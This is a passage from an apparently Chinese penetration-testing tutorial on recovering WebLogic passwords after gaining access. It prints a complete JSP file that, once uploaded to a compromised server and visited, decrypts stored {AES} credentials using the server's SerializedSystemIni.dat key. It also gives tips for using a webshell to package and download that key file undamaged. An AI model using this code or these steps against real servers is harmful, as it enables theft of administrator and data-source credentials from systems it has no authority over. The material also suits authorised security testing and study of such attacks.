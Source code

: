 操作难易：★

成功几率：★★★

推荐指数：★★★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools7-get_wls_pwd2`

---

只需要把要解密的密文写在jsp文件中即可，上传服务器，访问后即得明文。

![image](images/2019.12-weblogic/image(15).png)

代码如下：

```
<%@page pageEncoding="utf-8"%>
<%@page import="weblogic.security.internal.*,weblogic.security.internal.encryption.*"%>
<%
   EncryptionService es = null;
   ClearOrEncryptedService ces = null;
    String s = null;
    s="{AES}yvGnizbUS0lga6iPA5LkrQdImFiS/DJ8Lw/yeE7Dt0k=";
    es = SerializedSystemIni.getEncryptionService();
    if (es == null) {
       out.println("Unable to initialize encryption service");
        return;
    }
    ces = new ClearOrEncryptedService(es);
    if (s != null) {
        out.println("\nDecrypted Password is:" + ces.decrypt(s));
    }
%>
```

# 注意事项

1、如果AES加密后的密码为：`{AES}Nu2LEjo0kxMEd4G5L9bYLE5wI5fztbgeRpFec9wsrcQ\=` 破解时需要把后面的\给去掉，不然会执行报错。

2、有时候用webshell下载密钥`SerializedSystemIni.dat`文件后可能会和源文件不一致，从而导致解密失败，主要是因为`SerializedSystemIni.dat`文件为二进制文件，直接使用浏览器下载可能遭到破坏。

这时可以使用webshell执行tar命令，将`SerializedSystemIni.dat`文件打包后再下载或者使用Burpsuite的copy to file来进行保存。

一般来说`SerializedSystemIni.dat`文件为64字节，如果大小和这个不符，那么你下载的密钥可能不是原始文件。
